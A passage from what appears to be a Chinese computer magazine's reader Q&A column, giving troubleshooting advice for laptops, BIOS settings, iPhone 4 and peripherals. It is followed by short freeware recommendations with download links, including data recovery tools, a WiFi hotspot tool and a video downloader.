A 首先，建议你将笔记本打开，清理笔记本内的灰尘。此外，如果觉得风力不够，可能需要更换风扇或者给风扇加润滑油。一般情况下，开机开久了出风口比较热是有可能的，只要其他部位的温度不影响操作就可以使用。此外，购买散热底座确实能解决一些问题，不但可以帮助笔记本散热，符合人体工学的散热底座，还能使使用笔记本更舒适。（初学者勿试，请在高手指导下操作）

硬盘没有分区

Q 一台笔记本电脑买回后，硬盘只有一个分区，使用非常不方便，请问有没有什么办法将硬盘多分几个区，从而可以分类存放电脑上的文件呢？

A 建议你右键单击“计算机”，在弹出的快捷菜单中选择“管理”，进入“计算机管理”窗口，双击窗口右侧的“存储→磁盘管理”，找到所需要调整的硬盘，可以看到图形化的分区示意图。右键单击需要缩小的分区，选择“压缩卷”，系统会自动计算可以压缩的大小，单击“压缩”，待完成后，将会在原有分区后部出现未分配空间。右键单击未分配空间上，选择“新建简单卷”，按提示操作，分别输入：卷大小（分区容量）、驱动器号、分区格式等参数，单击“完成”。这时你的硬盘就有多个分区了。

无法正常关机

Q 一台计算机开机使用一切正常，但是每次用完电脑，单击Windows 7操作系统的“开始”菜单选择“关机”，无法正常关机，请问这是什么问题造成的？

A 建议你启动计算机，按DEL键，进入主板BIOS设置，选择“POWER MANAGE SETUP”，找到“ACPI FUNCTION”选项设置成“Enable”，按F10键，保存退出主板BIOS设置，问题就可以解决。如果问题仍然存在，建议你重新安装Windows 7操作系统试试。

集成主板不兼容独立显卡

Q 一台台式机采用技嘉GA-880GM-D2H(rev.1.x)主板，主板集成显卡，一直可以正常使用，最近购买了一块独立显卡，插入主板显卡插槽后，Windows 7操作系统提示ATI显卡驱动程序版本不支持，请问该如何解决？

A 你的技嘉GA-880GM-D2H(rev.1.x)主板应该集成ATI Radeon HD4250显示核心，插入独立显卡后，应该自动屏蔽板载显卡；根据你描述的问题，建议你先重新启动计算机，根据主板说明书，进入主板BIOS设置，屏蔽掉板载显卡，看问题是否可以解决，如果问题仍然存在，建议你进入Windows 7操作系统的安全模式，卸载掉集成显卡的驱动程序，然后重启进入Windows 7操作系统，重新安装独立显卡驱动，一般问题可以解决。

iPhone4 手机 Home 键失灵

Q 一台iPhone4手机，一直使用正常，最近手机的Home键时而失灵时而正常，请问该如何解决？

A 首先，建议你在iPhone4手机上打开任意一款应用程序，按住电源开关几秒钟，直到屏幕出现滑动关机的指示。此时可以放开电源键，但不要滑动关机，同时按压Home键几秒，直到屏幕回到Springboard，这样就已经重新调整了Home键，一般问题就可以解决。如果问题仍然没有解决，那么可能是手机硬件问题造成的，建议你到苹果指定售后服务中心维修检测你的iPhone4手机。

傻博士有话说：

iPhone4手机使用一段后，很多用户会遇到Home键时而失灵时而正常的问题，而该问题一般是由于触控调整问题，应用程序出现bug造成的，与iPhone 4手机硬件故障无关。

笔记本电脑续航能力下降

Q 一台华硕N81笔记本电脑，以前续航时间可达3小时，但最近发现电池续航时间还不到1小时左右，请问该如何解决？

A 该问题应该是由于笔记本电脑电池频繁充放电后，又长期没有彻底放电，从而造成的电量误差。建议你可以使用笔记本电脑主板BIOS的电池校正功能来解决问题。具体方法如下：启动计算机，按F2键，进入主板BIOS设置，利用左右方向键移动到“Power”设置界面，找到“LCD Power Saving”选项，将其设置为“Disabled”，关闭显示屏节能模式，从而加快放电速度。然后切换到“Start Battery Calibration”选项，此时屏幕上会出现警告提示信息，按下“回车键”，由于电池此时并不是满电量显示，应该马上接上AC电源适配器，让电池进入充电状态，充满后，屏幕画面会出现提示信息，此时移开AC电源适配器，程序马上会自动对电池进行放电，等待机器放电完成后会自动关机。整个过程大约需要4小时，关机后接上AC电源适配器，充电直到充电指示灯熄灭，这样即完成了电池校正。

DV 取景器没有图像显示

Q 一台DV一直使用正常，最近一次使用时发现取景器上有光栅显示，但是没有图像显示，请问这是什么问题造成的？

A 首先，建议你关闭LCD液晶屏，这样通常能恢复图像显示，如果仍然无法解决，还是无图像显示，那么该问题可能是由于DV开启了取景器节能选项，建议你进入DV设置菜单，将“VFPW-SAVE”设置为“OFF”，一般问题可以解决。

GPS 出现延迟停滞现象

Q 一台GPS导航仪，最近切换过程经常出现延迟现象，甚至出现停滞或者无法关机，必须直到电量耗光自动关机，再充电启动，才能恢复正常使用，请问该如何解决？

A 建议你清除GPS内存缓冲，一般问题可以解决，具体方法如下：首先，需要拔掉GPS设备的所有连接线，按“电源键”重新开机，然后插入SD卡后，约1分钟左右，再次按“电源键”关机，一般问题可以解决。

税控打印机乱码

Q 一台计算机，平时使用一切正常，最近想把这台机器连接成税控机，连接并口税控打印机后，打印出现乱码现象，请问这是为什么啊？

A 该问题是由于你的计算机主板BIOS中并口状态设置不正确造成的，建议你重新启动计算机，按DEL键进入主板BIOS设置，选择“Integrated Peripherals→Parallel Port Mode”，设置为“SPP”，按F10键保存退出主板BIOS设置，一般问题可以解决。

BIOS 设置不当造成无法无线上网

Q 一台笔记本电脑，进入Windows 7操作系统，发现无线网络无法使用，系统任务栏右下角的“网络图标”上红叉，请问这是什么问题造成的？

A 建议你单击桌面“网络”图标，在弹出的快捷菜单中选择“属性”，在窗口左侧的“控制面板主页”，单击“更改适配器设置”，查看无线网络是否已经启用，如果未被启用，邮件单击“无线网络”图标，在弹出的快捷菜单中选择“启用”，看问题是否可以解决。如果问题仍然存在，建议你重新启动计算机，进入主板BIOS设置，选择“Wireless Control”，将其设置为“application”，保存退出主板BIOS设置，一般问题可以解决。

一些软件无法使用 3G 网络

Q 一台 iPhone 4手机一直使用正常，最近发现以前可以通过3G网络使用的“酷我听听”、“微信”、“QQ音乐”等软件都不可以使用了，只能通过WiFi才能使用；但是通过3G网络其他的一些软件可以连接到网络，请问这是什么问题造成的？

A 首先，建议检查你的 iPhone 4手机的网络设置是否正常，点选“设置→通用→网络”，查看“启用3G”、“蜂窝数据”是否均已开启；如果问题仍然没有解决，那么该问题应该是由于某些APP软件修改了 iPhone 4默认设置，使用了“cmwap”造成的。比如安装了中国建设银行的APP就会造成该问题，建议你点选“设置→通用”，找到“描述文件”，然后点选进入该选项，点选“移除”按钮，一般问题可以解决。

傻博士有话说：

一些银行的APP客户端软件（如：建设银行、中国银行等），一般会使用cmwap才能连接，所以在使用该类APP时需要安装一个指定的“cmwap”接入文件，从而屏蔽“cmnet”上网模式，而这样就会造成许多APP软件无法正常使用3G网络。

笔记本电脑合上盖子无法休眠

Q 一台笔记本电脑，合上盖子后笔记本电脑无法进入休眠状态，且笔记本电脑外壳非常烫，请问这是什么问题造成的？

A 首先，建议你单击“开始”，选择“控制面板→电源选项”，单击窗口左侧的“选择关闭盖子的功能”选项，将“关闭盖子时”后的下拉菜单选择为“不采取任何操作”，单击“保存修改”，看问题是否可以解决。如果问题仍然存在，那么该问题应该是由于某些应用程序无法正常关闭造成的。当合上盖子，系统开始执行进入休眠状态的程序，这时需要关闭系统内的某些程序，而如果程序出错，无法正常关闭，造成笔记本电脑仍处于工作状态，建议你在“任务管理器”中查看相应程序，单击“结束进程”，一般问题可以解决。

开机为何需要按 “F1” 键

Q 一台计算机刚购买半年左右，启动计算机后，出现开机画面后，发出5次“嘀嘀”响声，按“F1”键，可以继续启动计算机，而且到了桌面以后，桌面右下角日期变成初始设置，请问这是什么问题造成的？

A 从你描述的开机要按“F1”键才能继续启动计算机和日期变初始设置等现象来看，说明你的计算机主板 BIOS 出现问题，该问题应该是由于主板 BIOS 电池供电问题造成的。建议你更换主板 BIOS 电池，一般问题可以解决。

机箱风扇为何噪音很大

Q 一台计算机一直使用正常，计算机在使用中机箱中的风扇噪音非常大，请问有什么办法可以解决？

A 首先确定产生噪音的风扇是来自电源风扇还是 CPU 风扇。如果是电源风扇，可能是电源老化所致，可考虑更换新电源。如果是 CPU 风扇，则可能是风扇长期使用堆积灰尘太多造成的，可请对硬件比较了解的朋友帮忙清理风扇，或者直接更换新的风扇。另外，这一问题也可能是由于 CPU 散热风扇转速相对过高造成的，建议你启动计算机，按“DEL”键进入主板 BIOS 设置，选择“Power”项，找到“Fan Acoustics”项，包括三个值可供选择：Normal(正常)、Quiet (安静)、High (高速)，默认值为“Normal”，选择“Quiet (安静)”，按“F10”键保存退出主板 BIOS 设置，看问题是否可以解决。不过这里要注意的是，因为风扇降速，会导致 CPU 散热不畅，从而给计算机硬件造成损坏，所以在设置后，一旦发现计算机频繁出现死机等现象，那么还需要重新进入主板 BIOS 设置，将风扇转速重新设置回“Normal”。

声卡驱动程序无法安装

Q 一台明基S43笔记本电脑，一直可以正常使用，最近重新安装了Windows 7操作系统，通过Windows 7操作系统的驱动搜索，提示“安装Realtek HD Audio Driver失败！”，请问这是什么问题造成的？

A 首先，建议你用Windows 7操作系统搜索安装与声卡对应的公版驱动程序，如果问题仍然无法解决，建议你可以使用“Win7声卡修复补丁”来解决问题，下载地址：http://download.csdn.net/detail/okhelp/1911711。具体操作方法如下：双击该软件，选择 Windows 7安装所在的分区，单击“确定”按钮，开始修复声卡驱动，待弹出修复成功提示窗口，单击“确定”按钮，下载 Realtek HD Audio 驱动程序，一般就可以正常安装声卡驱动程序了。

笔记本电源发出 “嗞嗞” 声

Q 一台笔记本电脑的电源适配器，工作时经常出现“嗞嗞”声，拿到耳边时声音很大，是不是我的笔记本的电源适配器坏了？

A 你描述的“嗞嗞”声可能是笔记本电源适配器工作时发出的“电流声”，如果声音不大，应该没有什么问题，但如果发热量比以前大很多，声音也比以前响很多，那么一定要尽快更换这个适配器，以免发生安全隐患。

傻博士有话说：

早期笔记本电脑的电源适配器一般都没有声音，但是随着电脑设备的性能增强，对功耗的要求也不断扩大，所以现在市面上销售和使用的笔记本电脑的电源适配器功率相对比以前要大很多，所以工作时发出一些电流声是很正常的，可以放心使用。此外，如果要为笔记本电脑更换电源适配器，请注意看好输出电压，最大输出功率是否匹配，接口是否与笔记本电脑匹配等，以免造成不兼容问题。

iPhone 4 黑屏死机

Q 一台 iPhone 4手机，一直可以正常使用，最近一次朋友给我打电话说可以接通，但是我拿出手机来却是黑屏，想重新启动手机，按下重启键没反应，插上电源，屏幕也是漆黑一片，请问这是什么原因造成的？

A 这可能是由于你的 iPhone 4死机造成的，智能手机和我们日常使用的电脑是一样的，都具有操作系统，所以由于程序的不稳定或者其他原因，都会造成死机问题。建议你同时按住“启动键+home键”10秒钟以上，待 iPhone 4上出现重启的苹果画面，这时松开按键。这时你的 iPhone 4就可以重新启动了。要注意的是，这样的重启可能时间相对较长，需要你耐心等待。

投影机为何没信号

Q 一台新购买的投影机，使用时通过台式电脑用 VGA 线从显卡接到投影机输入接口，却没有信号。投影机的接口是两个输入和一个输出，都没有信号，请问这是为什么？

A 首先，建议你查看一下你的电脑显示的分辨率，如果你先前在电脑上设定的分辨率不在投影仪显示范围内，就可能造成无法显示的现象。所以在你连接投影机之前，先将电脑的显示分辨率调节成1024×768像素，然后再连接投影机，看问题是否可以解决。另外，一些投影机具备多视频信号接入，提供两组供PC接入的端口，还具备S端子以及复合视频接口，所以在你将电脑连接上投影仪并打开电源后，还要按投影仪表面上的“INPUT”按钮，然后选择相应的视频接入端口，一般问题可以解决。

CPU 超频后出现蓝屏

Q 一台计算机 CPU 超频使用，显卡是默认频率，开机进入 Windows 7操作系统，打开网页就会出现“内存不能为read”，然后就会蓝屏重启，重启两次后电脑就会正常运行了，请问这是什么问题造成的？

A 提示“内存不能为read”，一般是由于软件冲突所致。建议你回忆一下出现该问题前是否安装过其他软件，将该软件卸载，一般问题可以解决。此外，如果确定软件方面没问题，可以检查下硬件方面的设置，比如电脑内有多根内存，建议通过主板 BIOS 设置，将其频率设置为一样，或将双通道内存改为单通道，一般问题可以解决。

移动硬盘盘符无法找到

Q 一块移动硬盘，一直可以正常使用，最近在一次重启电脑后，在“计算机”中却找不到相应盘符了，移动硬盘灯一直闪烁，计算机桌面任务栏右下角显示连接成功，磁盘管理也显示得出移动硬盘，请问这该如何解决？

A 可右键单击桌面上的“计算机”图标，选择“管理”。在“磁盘管理”中，找到移动硬盘，右键单击移动硬盘的分区，选择“更改驱动器号和路径”，然后给分区指定一个盘符，这样应该就能访问了。如果问题仍然没有解决，在插接移动硬盘的前提下，重新启动。假如这样操作还是不行，那么检查一下是不是电源供电不够，更换一根双头的 USB 数据线，一般问题可以解决。如果问题仍然存在，那么该问题应该是你的移动硬盘损坏造成的，建议将移动硬盘拆开，分别检测硬盘盒和硬盘是否存在问题。

启动速度为何变慢

Q 一台新购买的笔记本电脑，有时插入 eSATA 接口移动硬盘，启动计算机进入 Windows 7速度会非常慢，请问这是什么原因造成的？

A 出现该问题的原因在于微软 AHCI(高级主控制器界面)的初始化时序与传统的 SATA 规范不完全相符，从而导致在检测 eSATA 接口的时候需要花费更长时间，影响启动速度。解决的办法就是升级微软相关的补丁程序，安装后一般问题可以解决。

傻博士有话说：

目前市面上销售的一些笔记本电脑都带有 eSATA 接口，但是许多朋友并不使用 eSATA 外置硬盘，而对于 Windows 7操作系统而言，如果有闲置的 eSATA 接口，Windows 7操作系统启动时间将会大大延长！

启动计算机要按多次电源键

Q 一台计算机开机时按下电源键经常没反应，一般要按好几次，才能启动计算机，有时按了几次没反应，过2~3秒后又开始运行，请问这是什么原因造成的？

A 该问题应该不是机箱上电源键老化造成的，问题的重点可能是在主板上，这种情况应该是主板上部分电容容量降低甚至失效造成的。建议你仔细检查主板，如果发现有电容鼓起，就可能是这些电容所引起的故障。建议找专业电脑维修人员帮助检查维修。

DVD 刻录机电源校验错误

Q 一台计算机使用先锋 DVR-212的 DVD 刻录机，近来在刻录 DVD 光盘时提示：电源校验错误，使用了多个品牌刻录光盘，更换一个大功率电源问题依旧，请问这是什么原因造成的？

A 使用 DVD 刻录机出现“电源校验错误”的提示，不一定就是电源问题。首先，该问题可能是由于你的 DVD 刻录机使用时间相对较长，造成激光头老化或变脏，从而造成刻录初始化时无法准确读取信息，从而出现上述错误提示，建议你使用 DVD 清洁光盘，清洁 DVD 刻录机光头，看问题是否可以解决。如果问题仍然存在，建议你关闭计算机，打开计算机主机箱，更换 DVD 刻录机的数据线和供电接口。如果这样仍然无法解决，建议你找相关专业人士，调整你的 DVD 刻录机的激光头功率，一般问题就可以解决。

## USB 接口耳麦为何识别慢

一台计算机使用Windows XP操作系统，最近购买了一个USB接口耳麦，内置声卡芯片，插入计算机USB接口，总是需要很长时间才能被识别出来，而且有时计算机可以识别出耳麦，而声音却还是从音箱传出来，请问该如何解决？

建议你单击“开始”菜单，选择“控制面板”，找到“声音和音频设备”选项，单击“音频”选项卡，找到“声音播放和录音设备”，设置成为你的耳麦的USB声卡，单击“确定”，一般即可解决问题。至于识别出耳麦后，仍然通过音箱播放，是因为你是在音乐播放后插入耳机，系统会默认使用计算机主板自带的声卡造成的，只要将默认声卡设置为耳麦的声卡就可以了。

## 笔记本电脑外置扬声器出现杂音

一台笔记本电脑最近播放音乐时总会突然出现杂音，无论声音大小都会出现该问题，请问这是什么原因造成的？

首先，该问题可能是音频设备驱动程序跟某些应用程序存在冲突造成的，建议你可以尝试卸载声卡驱动，右键单击“计算机”，在弹出的快捷菜单中选择“属性”，单击“设备管理器”，找到相应声卡，单击“卸载”按钮，然后重新安装该声卡驱动程序，看问题是否可以解决。其次，建议你检测该笔记本电脑的外置扬声器是否损坏，建议你将耳机插入该笔记本电脑的音频接口，如果插入耳机后杂音消失，那么说明该问题是由于外置扬声器损坏造成的，需要到专业维修中心更换笔记本电脑外置扬声器。另外，这里要注意的是，有时候周围有干扰信号存在，也可能造成笔记本电脑外置扬声器出现杂音，建议检查周围的电子设备是否与笔记本电脑互相干扰，或者将笔记本电脑换一个地方使用，看是否还有该问题。

## QQ 手势达人 for PPT

无论是演讲，还是授课，一份演示文稿是必不可少的，可不便之处就是演示文稿播放时，必须操作键盘或鼠标，不太方便。如果能通过一个手势控制演示文稿的播放，那么无疑就非常方便了。“QQ手势达人 for PPT”就是一款通过普通摄像头来进行手势控制的体感软件，它抛弃了从电脑诞生之日起就一直使用的键盘和鼠标，完全由手势控制您的演示。我们可以通过三步操作手势（手势、变拳、移动），控制PowerPoint文稿的播放、上翻页、下翻页、结束播放，简单易用，这样我们只要在摄像头拍摄范围内，做相应的动作就可以控制演示文稿的播放，初次使用，要多练习才能操纵自如。

http://labs.qq.com/labs/qqgesture.shtml

## 用脑袋控制鼠标

用脑袋来移动鼠标，一般只发生在科幻电影里。Enable Viacam 就是一个可以“代替”鼠标的开源软件，只要电脑的摄像头可以正常使用，使用该工具，选择track face 会追踪你的头像。运行后会看到你的头像，点击绿色对号，动动脑袋，光标就会跟着移动。在工具栏上，每个图标代表不同的鼠标点击操作，左键、右键、中键以及双击。你可以用头移动到这里暂停，便会切换。

http://www.onlinedown.net/soft/113504.htm

## 数据恢复小能手——Undelete360

工作生活中，经常会听到数据丢失“杯具”，如：不小心删除了重要的资料、中毒丢失文件、不小心格式化硬盘了，又或者被家里的小孩给删除了多年来收藏的照片，反正这些事情总会偶尔地不间断地发生。Undelete360是一款免费的数据恢复工具，支持Windows XP/ VISTA/7/ 2008，完全支持 NTFS、NTFS5、FAT12、FAT16 和 FAT32 磁盘格式。启动工具后，单击“搜索”选择丢失文件所在的分区，然后单击“开始”，稍后会列出被删除的文件，以及文件可能恢复的状态（非常好、较好、一般、较差和已被覆盖），这里要特别说明的是：搜索速度非常快，列出的被删文件也相当全。选择文件后，单击“恢复”按钮即可开始恢复文件。这里要特别提醒大家：文件丢失或误删，一定不要再往该文件所在分区存放文件，这样恢复的几率会很高。

http://www.onlinedown.net/soft/114412.htm

## 模拟未来宝宝的模样

记得以前NBA球星姚明老婆怀孕时，网上就有很多根据他们两人照片合成的预测孩子模样的图片。那么你想知道自己未来的孩子长什么样？提供男女两张照片就可以了！打开BabyMaker，根据提示导入夫妻的照片，选择人种肤色，希望男孩还是女孩，单击“继续”按钮就会预见你们未来宝宝的样子了！由于是国外软件，所以宝宝的头发是金黄色，请不要惊讶，当然，该软件仅供娱乐，不要当真哦！

http://www.99d.com/down/145/488653.html

## 鼠标自动操作

游戏、挂机、刷屏，我们经常会用到鼠标固定化操作的程序。此时如果人工操作鼠标，那么无疑会比较繁琐。“菜鸟鼠标原点”可以让繁琐变得简单，它能帮你完成你想要的鼠标点击事件，在无人监控的情况下，按照你的设置，自动完成鼠标移动和点击事件。

http://www.9669.com/soft/1/30/12240.html

## 音乐送你进梦乡

现代人工作压力大，经常会导致失眠、睡觉不踏实、焦虑症等，而睡眠不好又会导致工作效率下降，工作压力再次增加，如此恶性循环，后果不可预料。“睡眠助手”采用催眠疗法的机理，可产生大自然的背景声，配合同步产生的高频和低频声波，让人的心情因其美妙动听的旋律和充满大自然的声音，产生一种莫名的安宁，从而让心理进入一种轻松缥缈的境地，可以让人的精神彻底放松，享受清净，在这种状态中静静入睡，睡眠质量将得到很大改善。

http://www.newhua.com/soft/46063.htm

## 看看每天时间到底耗在哪些程序上

用电脑就是用程序，即使是上网冲浪，也是在用浏览器、聊天工具，每天都在用电脑，每天的时间都在电脑前消耗掉。那么，到底在哪些程序上浪费了时间呢？借助Free Time Tracker这款小工具就能找到答案了，它会将你每天用软件的时间做成报表，到底在哪款软件上耗费了大量的时间，回头一查便知。

http://www.kvpietech.com/timetr.exe

## 鼠标右键菜单项的管家婆

在电脑操作过程中，鼠标右键使用的频率非常高，借助鼠标右键的操作效率也是很高的。不过，随着安装软件的数目增长，鼠标右键项也是越来越多，而鼠标右键菜单项的某些重要的右键菜单项就越来越难找，甚至有些右键菜单项还会因为某些程序的卸载而无法删除。RightMenuMgr就是一款专门用来管理鼠标右键菜单项的强力武器，不管是哪个位置的鼠标右键（文件、文件夹、IE、磁盘等）都可以借助它来进行管理。

http://tinyurl.com/5sgoxn8

## 开程序也能踏雪不留痕

在上班时间，可能想开一些不想让老板发现的程序，例如QQ、下载工具、飞信等，虽然这些程序有的自带了老板键，但由于不统一，用起来也不太方便。而Minime这款小工具可以直接将你需要隐藏的程序一并隐藏起来，要想隐藏某个程序窗口时，只要先打开这个窗口，再按Ctrl+Shift+Z一组快捷键即可完成隐藏了，打开时只要在托盘区展开Minime程序图标即可。它是上班时间偷偷运行自己程序的好搭档。

http://tinyurl.com/6f2k5d9

## 建造 WiFi 热点只需鼠标一点

之前看到过借助一些软件、无线网卡实现搭建WiFi热点的方法，相当繁琐，现在已经忘得一干二净了。不过，随着手机等支持WiFi上网的设备越来越普及，这样的需求却越来越多了，如何方便又快速地搭建一个WiFi热点呢？借助ApWiFi这款小工具就能方便地实现WiFi热点的搭建，具有以下优点：

- 无须过多的繁杂参数的设置
- 只需要启动这个服务即可
- 很多设置都避免了，非常方便

http://www.onlinedown.net/soft/114270.htm

## 让你的电脑也能时刻保鲜

使用电脑总有一个烦人的地方，那就是时间一长，或者使用过程中不小心，系统就会变得越来越难用，或是越来越慢等现象。这是Windows系列系统的通病，之后，人们开始使用影子系统类的小工具，让系统每次开机后都能恢复如初。而这款“ICEBOX”就是一款可以让系统始终新鲜如初的小工具，功能类似“沙盒”，上网不会中毒，安装软件也可以达到卸载不留痕的效果，提供的软件库中的软件即用即下，无须安装。它就像电脑中的保鲜盒，可以让你的电脑时刻如新。

http://www.icebox.cn/

## 下载“难缠”视频不用费劲

在CNTV、YouTube看到一部好视频，总想将它下载到本地硬盘中，但是试了N种方法却总无果，这时候就可以借助“糗事综合视频站下载器”来实现了，只要将要下载的视频的网址输入，最后按“下载”按钮即可将这部在线视频下载到指定的目录。如果经常需要下载这些视频页面中的视频，将这款小工具收藏起来，肯定会给自己带来方便。

http://www.xmlbar.com/llidowncnsetup.exe

## 让宝贝爱上读书

从小培养孩子良好的读书习惯，是每个家长的心愿。可入学前孩子识字很少，根本无法阅读，这该怎么办呢？童梦阅读器是一款专为儿童设计的阅读器，融合了多种数字媒体技术，融知识与娱乐一体，让孩子玩得开心，学得尽心。

家长能够使用童梦阅读器对孩子阅读和娱乐的时间、内容进行控制，让孩子学会合理分配时间。童梦阅读器上所有多媒体图书都经过童梦视界软件公司严格审核，注重保护孩子的心理健康，让孩子远离不良信息。下载解压图书后，单击主界面上的“导入”按钮，即可加载外部图书，非常简单。图书上的文字都有真人语音朗读，让学龄前孩子也能“看”书，独有的点读、划读让孩子学习的时候更轻松，仿真的翻书风格，书架上的图书随意拖动排序能够让孩子养成分类整理的习惯，超越传统图书的阅读体验。“让孩子爱读书，读好书，就这么简单！”

童梦阅读器：http://www.sight69.com
图书下载：http://www.sight69.com/download/ebook

## 超酷的音量调节工具

是不是已经厌倦了Windows自带的音量调节工具呢？单一呆板。只要安装了3RVX就可以拥有超酷的音量控制工具，安装后打开该工具，选择语言为

## 取名字，哼哈二将很给力

办了公司开个小店需要取名，生了宝宝更需要取个给力的名字。《公司取名软件》只需要进行简单设置，就可以产生2000多个名字，还可以自动与全国100多万个公司进行名称比对，避免重名。《宝宝取名》提供了诗词取名、组合取名、起小名、起英文名等功能。支持按五行、拼音、简繁体笔画、辈份筛选名字。古人云：“赐子千金，不如教子一艺；教子一艺，不如赐子一名。”因此准爸爸妈妈们，要想给孩子取个好名字，可以参考该软件。

《公司取名软件》：http://www.newhua.com/soft/102808.htm
《宝宝取名》：http://www.newhua.com/soft/74646.htm

## 让 Windows 7 任务栏更“包容”

当开启的程序很多时，任务栏上就会有很多图标，密密麻麻的，此时就可以使用Bins整合已有图标，节省出任务栏空间。它使用很简单，安装后拖动一个任务栏上的图标，放于另一个任务栏图标上，将其放在弹出框里面即可分组。

网址：http://www.oneupindustries.com/Bins

## 大硬盘数据快速还原

如今硬盘的容量是越来越大，一不小心文件误删或丢失，怎样快速找回文件呢？“安天敏捷恢复”绝对是拯救数据的好帮手，这是一款完全免费数据恢复利器，数据恢复速度快，能够支持多种分区格式的数据恢复，同时能够针对IDE/ATA、SATA、SCSI、USB等多个种类的硬盘或U盘、数码设备和USB种类的存储盘进行数据恢复。提供了安装版和绿色版，建议大家提前安装到电脑中，以防万一。如果数据已经丢失，则将绿色版复制到非丢失数据的分区，再进行扫描恢复，这样可提高数据恢复的成功率。

网址：http://www.antiyfx.com/a-recovery.html

## 万款小游戏任你玩

工作之余，玩个单机小游戏放松身心，无疑可以提高工作效率。可此时如果还要寻找下载游戏，那就比较麻烦了。987游戏盒采用独特的安全环境，包含2000多个单机游戏，30000多个FLASH小游戏，和大量热门安全的网页游戏，应有尽有，如：植物大战僵尸、反恐精英、粘粘世界、火影忍者、忍者神龟、超级玛丽、暴力摩托等等；下载速度快，安全无毒，所有游戏均无需安装，下载完成即点即玩。

网址：http://www.newhua.com/soft/95625.htm

## Windows 7 入驻移动硬盘、优盘

系统突然崩溃，又着急用电脑，就是Ghost恢复也要花费点时间，不用着急，你可以把Windows 7安装到移动硬盘或优盘中，插电脑上，将BIOS设置为从USB启动，借助这款“NT6快捷安装器”小工具，就可以将原本无法安装到移动设备中的Windows 7（也支持Windows Vista）直接入驻移动设备。在安装时，需要找到Windows安装文件中的WIM映像文件，例如Windows 7系统的该文件位于安装文件夹下的“sources”目录中。

http://tinyurl.com/3f6a3ru

## 自启动程序较拥挤？我来疏导疏导

为了方便，很多应用程序被设置成随机启动，但是这样随机启动的程序数目多了，难免会导致开机时的不顺畅，甚至还有假死的可能。其实，只要借助“Startup Delayer”这款小工具，分别为每个开机自动启动的程序设置一个延迟时间，让它们挨个启动就能避免开机那刹那一窝蜂似的拥堵，让系统启动回归正常态势，也可以自己减少一些等待的烦恼。

http://www.onlinedown.net/soft/51503.htm

## 让你体验多核浏览的快乐

浏览器是每次上网必备工具之一，不同的浏览器使用时的感觉也不尽相同。例如Firefox使用起来就比IE浏览器快，但当遇到网上银行、网上支付这类应用时，它又不行了。傲游3浏览器就是一款集多种内核于一体的利器，集成了Firefox浏览器的高效率内核——Webkit，又集成了IE的浏览器的内核——Trident。而这次的傲游3.1.3推出主要是进行了稳定性的加强，而整体来说，傲游3.X浏览器与傲游2.X相比，界面简洁是最大的亮点。

http://www.maxthon.cn/

## 定制自己的资源管理器

在平时用电脑过程中，资源管理器应该是最常用的。不过，Windows 7默认展现的资源管理器也许不是你最喜欢的，也不是最顺手的。借助“System Folders Customizer”就可以打造出自己最惯用的资源管理器了，例如可以将“控制面板”、“网络位置”、“管理员工具”等放到资源管理器（当然也可以放到桌面、计算机等这些位置）中，这样就给日后的电脑操作带来了极大的便捷，提高工作效率。

http://down.tech.sina.com.cn/page/51785.html

## 通往高手的桥梁

常在河边走，哪有不湿鞋。驰骋于因特网世界，难免会遭遇病毒、木马等恶意程序的侵袭，对于一般新手朋友，系统的身家、性命便全压在防火墙、杀毒软件上，但这些杀毒工具有时候也会失手而让你失望。其实，真正的高手，往往更相信自己的实力，手工杀毒感觉更彻底。不过，他们也会必备一些工具，像“XueTr”就是一款手工杀毒的利器，例如查看隐藏进程、隐藏文件、删除常规方法无法删除的文件等。它是一款手工杀毒必备的辅助工具。

http://xuetr.com/download/XueTr.zip

## 为 USB 安把锁

特别是公用电脑，很多简直就是病毒集中地，因为之前没有对其做好安防设施，任何人都可以拿着优盘这类移动设备出入其中，形成病毒交叉感染。假如你的电脑也经常被别人乱插优盘类移动存储设备，为了避免病毒的侵袭，在系统中安装“USB Flash Block Unblock”这款小工具，必要时锁定自己的USB接口，进而从源头拦截可能来袭的病毒。

http://dl.dbank.com/c0tkayi0ez

## 电脑人士，养成定时休息很重要

很多长时间玩电脑的朋友（例如借助电脑办公、游戏、上网）会导致各种电脑病的产生，例如键盘手、鼠标手、干眼症等。因此，养成良好的定时休息习惯非常重要，但坐在电脑前，容易把休息这茬给忘记了。借助“FadeTop”这款小工具就能避免因遗忘而误了休息时间，到达指定的休息时间后，它会将桌面变成事先设置的颜色或是透明，逼着自己养成电脑前定时休息的良好习惯。

http://www.fadetop.com/

## 免费的无线“路由”

平时回家笔记本都被老婆占用了，自己只能用手机上网，时间一长手机流量就超支了。本想给家里装个无线路由，可朋友给我推荐APWIFI，可以把笔记本变成一个“虚拟无线路由器”，前提是笔记本必须有无线网卡，这样就能发射无线WiFi信号，让其它电脑、手机等设备都可以连接无线信号上网。

http://www.newhua.com/soft/114270.htm

## 个性化 Windows 7 登录界面

Windows7界面虽然精美，但是天天见也会厌烦的。有没有想过让Ta的照片，出现在电脑中呢？修改成桌面背景很简单，可怎样修改成登录背景呢？使用 Pretty Login就能轻松搞定。想想将自己和恋人的亲密照设为登录界面，当Ta打开电脑时，一定会倍感温馨。

http://www.crsky.com/soft/26387.html

## 边玩边学，单词记忆不再难

对于国人来说，学习英语最难过的是单词关，枯燥的记忆让很多人望而止步。不过现在好了，“91英语”给我们带来了不一样的背单词体验，它融合了多种联想记忆法，寓学于乐，提供了在线学习计划、视频学习、联想记忆、联想风暴等功能，我们可以借助电脑、网络、手机，随时随地记单词。

http://ego.rj.91.com

## GIF 动画“瘦身”成 QQ 表情

在网上搜到一些精美搞笑的Gif动画，本想用来作为QQ动画表情发送给好友，可QQ不给力，提示文件过大，无法发送。如果遇到这种情况，我们可以请Gif Resizer修改动画的尺寸，让“大个”Gif动画都能成为QQ表情。

http://www.ipc.me/gif-resizer.html

## 高清音乐 MV，一次乐个够

如今上网听歌相当稀松平常，可让高清音乐或MV从网络到电脑甚至到手机，就不是那么简单的啦。多米音乐的横空出世让一切变得非常简单，它提供了PC版软件，可以收听下载高品质音乐和MV，还提供了手机版软件，支持Symbian、安卓、iPhone等多种手机操作系统，让我们可以随时随地收听音乐、观看MV。

http://www.duomi.com

## 文库下载无需积分

如今网上很多资料都被收集在百度、豆丁等文库中，下载时需要财富或积分，可大多数用户都是积分不足，无法下载。“冰点文库下载”的到来，让我们可以以0积分0财富，下载所有的文档。打开工具后，只需粘贴文档网址，此时就会自动下载并转换成pdf和word文档，我们只需打开word文档，进行简单编辑排版即可使用。

http://www.onlinedown.net/soft/113511.htm

## 电脑里面有“蚊香”

